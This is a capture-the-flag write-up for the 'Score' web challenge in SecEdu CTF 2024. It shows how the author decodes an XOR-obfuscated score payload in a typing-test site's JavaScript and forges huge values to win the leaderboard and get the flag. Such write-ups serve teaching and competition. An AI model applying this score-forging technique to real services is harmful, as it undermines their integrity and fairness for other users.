 ```yaml
---
title: "Score"
description: "After a review, we found that ORG-C is hosting an unusual website on their servers... It looks like they're pretty competitive -- let's make sure they know who's boss!\n\n`http://chals.secedu.site:5007/`"
pubDate: 2024-10-01
ctf: "SecEdu CTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```




Visiting the site, we are shown a typing test!

![typetest.png](images/24-secedu/typetest.png)

There is also a leaderboard and a login page.

![typetestscoreboard.png](images/24-secedu/typetestscoreboard.png)

We try the credentials for `Br0kenC1ph3r23` on the login page and it works! (We later find out as long as the username is not taken the password doesn't matter...)

Ok, we have a login, let's try this test and see if we can mess with the score!

```
POST /api/score HTTP/1.1
Host: chals.secedu.site:5007
Content-Length: 120
...
{"score":"⏝⎄⏑⏖⏋⎄⎜⎒⎔⎈⎔⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎗⎊⎄⏔⏇⏑⎄⎜⎑⎑⎈⎒⏛"}
```

Huh..?

Some kind of weird character encoding, let's check out the JS source code of the site.

Doing some digging I find a [JS file](http://chals.secedu.site:5007/_app/immutable/nodes/2.B-bCw-im.js) with a segment of interest:
```js
const dt = (s, e) => {
        Te.set(s), Qe.set(e), qe.set(s * e), pt()
    },
    mt = () => JSON.stringify({
        wpm: f(qe),
        raw: f(Te)
    }).split("").map(e => e.charCodeAt(0)).map(e => e ^ 4401 ^ 5556 ^ 10019).map(e => String.fromCharCode(e)).join(""),
    pt = async () => {
        const s = await et("score", "POST", {
            score: mt()
        });
        s.success ? Ce.set(s.rank) : Ce.set(-1)
    }, Se = b(!1), ht = () => {
        Se.set(!1), $e(), ot()
    }, vt = () => {
        const s = D.length,
            a = f(F).reduce((n, t) => n + f(t).reduce((r, c) => r + +(c === !1), 0), 0) / s,
            l = s / 5;
        dt(l * (60 / xe), a), Se.set(!0)
    };
```

It seems to be doing some whacky XOR operation, let's make a quick decryption and encryption script for modification of the values.

```js
function decodeInput(output) {
    const decodedChars = output.split("").map(decodeChar);
    return decodedChars.join("");
}
function decodeChar(char) {
    return String.fromCharCode(char.charCodeAt(0) ^ 4401 ^ 5556 ^ 10019);
}
function encodeInput(input) {
    const encodedChars = input.split("").map(encodeChar);
    return encodedChars.join("");
}
function encodeChar(char) {
    return String.fromCharCode(char.charCodeAt(0) ^ 4401 ^ 5556 ^ 10019);
}
```

Loading those functions into the console, I try to `decodeInput()` my POST request data:
```js
> decodeInput("⏝⎄⏑⏖⏋⎄⎜⎒⎔⎈⎔⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎗⎊⎄⏔⏇⏑⎄⎜⎑⎑⎈⎒⏛")
'{"wpm":42.20000000000001,"raw":77.4}' 
```

Great! Let's try making that WPM and RAW values 100!

```js
> encodeInput('{"wpm":1000.0,"raw":1000.0}')
"⏝⎄⏑⏖⏋⎄⎜⎗⎖⎖⎖⎈⎖⎊⎄⏔⏇⏑⎄⎜⎗⎖⎖⎖⎈⎖⏛"
```

Sending that in the POST request we just get first on the leaderboard but no flag... What if we overload it with a lot of `9`'s?

```js
> encodeInput('{"wpm":99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999.99,"raw":99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999.99}')
"⏝⎄⏑⏖⏋⎄⎜⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎈⎟⎟⎊⎄⏔⏇⏑⎄⎜⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎈⎟⎟⏛"
```

Sending that we get a better response:
```json
{"status":"SECEDU{definitely_not_a_robot}","success":true}
```

Flag: `SECEDU{definitely_not_a_robot}`